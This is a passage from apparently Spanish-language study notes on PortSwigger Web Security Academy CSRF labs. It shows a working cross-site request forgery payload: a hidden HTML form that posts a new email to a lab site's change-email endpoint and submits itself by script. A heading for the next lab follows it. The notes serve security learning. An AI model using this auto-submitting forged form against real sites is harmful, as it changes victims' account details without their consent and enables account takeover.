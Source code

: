 ![](/img2/Pasted%20image%2020250730201535.png)

> Copiamos el formulario de la web y ejecutamos la función 'document.forms[0].submit' de javascript para enviar el formulario automáticamente.

- Injection

```html
<form class="login-form" name="change-email-form" action="https://0ae900a904fe323e8086e4ec00d200e7.web-security-academy.net/my-account/change-email" method="POST">
    <input  type="hidden" name="email" value="csrf@csrf.com">
</form>
<script>
      document.forms[0].submit();
</script>
```

## CSRF con token validado según el método HTTP || CSRF where token validation depends on request method

![](/img2/Pasted%20image%2020250730202424.png)
